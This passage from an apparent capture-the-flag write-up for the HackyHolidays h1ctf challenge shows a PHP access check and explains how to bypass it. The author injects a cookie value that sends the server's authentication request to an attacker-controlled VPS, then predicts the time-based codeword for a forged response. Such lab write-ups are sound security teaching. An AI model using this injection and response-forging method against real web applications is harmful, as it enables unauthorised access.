 ```php
                        }
                    }
                }
            }
        }
        if( !$authorised ){
            http_response_code(403);
            die("Request Blocked using Directory Protector");
        }
    }
    private function expectedKeyword($codewords){
        $words = explode(PHP_EOL,file_get_contents($codewords));
        $line = intval(date("G")) + intval(date("i"));
        return $words[$line];
    }
}
```
Furthermore, the content of `README.md` has been update providing to us a new directory, which apparently is protected via the above PHP code.
**New directory**
```
### Something for you to check out ;)

/infrastructure_management
```
3. Analyzing the code above, we notice that we need a few things.
 a. To set a cookie named  *authorisation_token*
 b. That cookie has to be base64 encoded and the encoded value has to be JSON format and include 2 values:
```     
 - token
 - server
```
 c. We also notice that the server value will be inserted in the URL below and create an endpoint that will attempt to communicating with a subdomain of the `server.local` network
 `http://' . $auth["server"] . '.server.local/authenticateAnalysing`
Since we can control the `server` parameter we can inject a value that will send the traffic to a server we control. This can be done by using a cookie like the one below
```
{"token":"test","server":"VPS:8000/\/?test="}
```
Once inserted into the URL above the `server.local` part will be considered as a parameter and the host used to send the HTTP request will be the VPS's IP on port 8000
d. In order for the `authorised` value to be set to `true` we also need the server to respond with a JSON response that will include 2 values
  - "authorised" set to true
  - "codeword" set to a specific value that is pulled from a list of key words. The correct value is derived based on the server time and will be generated by the code below
```php
        $words = explode(PHP_EOL,file_get_contents($codewords));
        $line = intval(date("G")) + intval(date("i"));
        return $words[$line];
```
The list of potential candidate keywords can be found within the flowing [code.txt list](https://c2.hackyholidays.h1ctf.com/infrastructure_management/code.txt) that can be found on the server.
